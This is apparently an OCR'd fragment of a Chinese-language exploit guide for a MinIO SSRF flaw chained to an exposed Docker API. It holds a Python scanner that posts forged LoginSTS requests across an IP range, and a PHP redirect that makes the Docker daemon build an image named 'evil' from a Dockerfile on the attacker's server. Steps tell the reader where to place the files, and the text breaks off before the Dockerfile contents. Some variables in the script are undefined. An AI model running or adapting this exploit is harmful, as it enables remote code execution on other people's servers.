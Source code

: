 ```php

def url_send(ip):
	url="http://192.168.203.130:9000" #目标服务器地址
#	proxies={'http':'http://192.168.1.5:8089'}
	headers = {
	'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3',
	'Host': server,
	'Content-Type': 'application/json'}
	url = url+"/minio/webrpc"
	data = """{"id":1,"jsonrpc":"2.0","params":{"token":"Test"},"method":"web.LoginSTS"}"""

	response = requests.post(url, headers=headers, data=data,timeout=10) 
	print("try "+url+  "   >>  " + str(response.status_code)+"   >>    "+ip)


def main():
	ip = []
	ip_network = ipaddress.ip_network(ip_icdr)
	for i in ip_network:
		ip.append(i)
	replace_ip('index.php',str(ip[1]))
	replace_ip('Dockerfile',str(ip[1]))
	url_send(str(ip[1]))
	for i in range(2,len(ip)):
		replace(str(ip[i-1]),str(ip[i]))
#		print(str(ip[i-1])+">>" + str(ip[i]))
		url_send(str(ip[i]))


		
if __name__ ==  "__main__":
	main()

```

1. 将给脚本放到服务器上，在当前目录还需要另外两个文件

* Dockerfile
* index.php

index.php的文件内容

```php
<?php
header('Location: http://192.168.203.130:2375/build?remote=http://192.168.203.130/Dockerfile&nocache=true&t=evil:1', false, 307);

```

注意修改remote地址为自己服务器的地址

2. Dockfile文件内容
